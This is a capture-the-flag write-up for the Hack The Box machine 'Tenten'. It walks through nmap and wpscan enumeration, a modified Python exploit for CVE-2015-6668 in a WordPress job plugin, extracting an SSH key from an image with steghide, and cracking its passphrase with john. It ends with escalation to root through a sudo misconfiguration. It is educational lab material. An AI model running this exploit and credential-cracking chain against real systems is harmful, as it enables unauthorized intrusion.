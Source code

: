 ### Introduction 
Hack the box Tenten is an easy-medium level machine. This challenge highlights the security vulnerabilities that are associated with Wordpress plugins that are outdated - this is a major vulnerable area that exsists in the real world. To get started on this challenge, one just needs to know basic enumeration methods and the basics of Linux. Doing this challenge, I learned how to enumerate Wordpress websites, exploit NOPASSWD files, use steganography tools, use some john the ripper for RSA cracking, and modify exploits. 

### Enumeration
To first enumerate the service, I run an nmap scan: ```nmap -sC -sV -oA scan 10.10.10.10```. This will create a file called ```scan.nmap``` which we can ```cat```. One can similarly use zenmap to get similar output. Shown below is the output the nmap scan gave me and the nmap report of the ports/hosts:
```
nmap -sC -sV -oA scan 10.10.10.10
Nmap scan report for 10.10.10.10
Host is up (0.061s latency).
Not shown: 998 filtered ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 ec:f7:9d:38:0c:47:6f:f0:13:0f:b9:3b:d4:d6:e3:11 (RSA)
|   256 cc:fe:2d:e2:7f:ef:4d:41:ae:39:0e:91:ed:7e:9d:e7 (ECDSA)
|_  256 8d:b5:83:18:c0:7c:5d:3d:38:df:4b:e1:a4:82:8a:07 (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-generator: WordPress 4.7.3
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Job Portal &#8211; Just another WordPress site
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sun Feb 17 01:57:49 2019 -- 1 IP address (1 host up) scanned in 16.18 seconds
```

![tenten](https://user-images.githubusercontent.com/41026969/52909819-4bb45400-325c-11e9-95f3-3e21e96ac4c7.PNG)

So we see that OpenSSH is open. We also see that the machine is running an Apache server with Wordpress, let's check out the website:

![tenten](https://user-images.githubusercontent.com/41026969/52909859-c41b1500-325c-11e9-82b6-306798925e27.PNG)

Investigating the page, we see that it's running a basic version of Wordpress. We can do further enumeration using ```wpscan```.

The command I use is:
```
root@josh0402:~/Desktop/Hacky Sack/!PenTesting/htb-tenten# wpscan --url http://10.10.10.10 --enumerate u 
```

This allows us the scan for potential vulnerabilities as well as enumerate users. This is what it outputs:

![image](https://user-images.githubusercontent.com/41026969/57188384-b8d69d80-6ecb-11e9-9720-e49dada4fe95.png)

### Exploitation

We see there is one username which is ```Takis```. Furthermore, we see there's an old job manager plugin with a few vulnerabilities that ```wpscan``` has shown us. Basically we are able to view different job applications and pages by changing the URL. For example, on this site, (from the homepage ```10.10.10.10```) we can click on ```Job Listing``` and ```Apply Now```. This will bring us to the following URL:
```
http://10.10.10.10/index.php/jobs/apply/8/
```

We can edit the ```/8/``` and play around with the numbers to view pages we aren't supposed to view.

Using curl and the source page (doing ```CTRL + U``` for source page), we can simply type up a script to check the different page titles in the source page. Here's what I typed up:
```
root@josh0402:~/Desktop/Hacky Sack/!PenTesting/htb-tenten# for i in $(seq 1 20); do echo -n "$i: "; curl -s http://10.10.10.10/index.php/jobs/apply/$i/ | grep '<title>'; done
```

Here's what it outputted:

![image](https://user-images.githubusercontent.com/41026969/57188569-e96c0680-6ece-11e9-847c-342ff636e1fa.png)

We see an interesting title page called ```HackerAccessGranted```...

Going back through the ```wpscan``` and looking through each link, [this website](https://vagmour.eu/cve-2015-6668-cv-filename-disclosure-on-job-manager-wordpress-plugin/) has python code we can edit to get the picture ```HackerAccessGranted``` uploaded. Looking at the python code, I noticed it had some outdated dates and the file types had to be changed since we're looking for a picture, here's what I updated the code to (also attached python file above):
```python
import requests

print """  
CVE-2015-6668  
Title: CV filename disclosure on Job-Manager WP Plugin  
Author: Evangelos Mourikis  
Blog: https://vagmour.eu  
Plugin URL: http://www.wp-jobmanager.com  
Versions: <=0.7.25  
"""  
website = raw_input('Enter a vulnerable website: ')  
filename = raw_input('Enter a file name: ')

filename2 = filename.replace(" ", "-")

for year in range(2013,2019):  
    for i in range(1,13):
        for extension in {'jpg','png','jpeg'}:
            URL = website + "/wp-content/uploads/" + str(year) + "/" + "{:02}".format(i) + "/" + filename2 + "." + extension
            req = requests.get(URL)
            if req.status_code==200:
                print "[+] URL of CV found! " + URL
 ```
Now running the code we get the link to the picture:
```
root@josh0402:~/Desktop/Hacky Sack/!PenTesting/htb-tenten# python edited_exploit.py 
  
CVE-2015-6668  
Title: CV filename disclosure on Job-Manager WP Plugin  
Author: Evangelos Mourikis  
Blog: https://vagmour.eu  
Plugin URL: http://www.wp-jobmanager.com  
Versions: <=0.7.25  

Enter a vulnerable website: http://10.10.10.10
Enter a file name: HackerAccessGranted
[+] URL of CV found! http://10.10.10.10/wp-content/uploads/2017/04/HackerAccessGranted.jpg
```
The picture of the file:

![HackerAccessGranted](https://user-images.githubusercontent.com/41026969/57188672-e07c3480-6ed0-11e9-92c5-3aef6963d9c5.jpg)

Doing several checks like binwalk and strings, nothing showed up. After installing ```steghide``` (a steganography tool) I did further analysis:
```
root@josh0402:~/Desktop/Hacky Sack/!PenTesting/htb-tenten# steghide extract -sf HackerAccessGranted.jpg 
Enter passphrase: 
wrote extracted data to "id_rsa".
```

Doing ```cat id_rsa``` we see that hidden in the image there's an RSA key!

![image](https://user-images.githubusercontent.com/41026969/57188781-2be31280-6ed2-11e9-974b-0654f5b3917e.png)

Using [this website](http://www.cables.ws/cracking-rsa-private-key-passphrase-with-john-the-ripper/) as reference, I was able to crack the RSA key shown below:

First I converted it to john format and saved it as ```id_rsa_johnfile```:
```
root@josh0402:~/Desktop/Hacky Sack/!PenTesting/htb-tenten# ssh2john id_rsa > id_rsa_johnfile
```

Then since I've never used the ```rockyou.txt``` wordlist (which is usually the default people use to CTF), I had to unzip it:
```
root@josh0402:~/Desktop/Hacky Sack/!PenTesting/htb-tenten# sudo gunzip /usr/share/wordlists/rockyou.txt.gz
```

Last, we can do ```john -show ida_rsa_johnfile``` to view the cracked password:

![image](https://user-images.githubusercontent.com/41026969/57188856-d445a680-6ed3-11e9-99ce-a0162ee28c89.png)

Now we can try to log into Takis (the user we found from the ```wpscan``` from above) using the passphrase ```superpassword```.

##### note: you may need to do ```chmod 600 id_rsa``` to change the permissions for the originally rsa key

![image](https://user-images.githubusercontent.com/41026969/57188895-b167c200-6ed4-11e9-89f5-edb44aea436d.png)

We got a shell along with the ```user``` flag. Doing a quick ```sudo -l``` check reveals we can run a bash script called ```fuckin``` at ```/bin/fuckin```. Looking at what it does it simply executes arguments.

Doing ```sudo /bin/fuckin bash``` gets us root!

### Flags:
user: ```/home/takis/user.txt```

root: ```/root/root.txt```
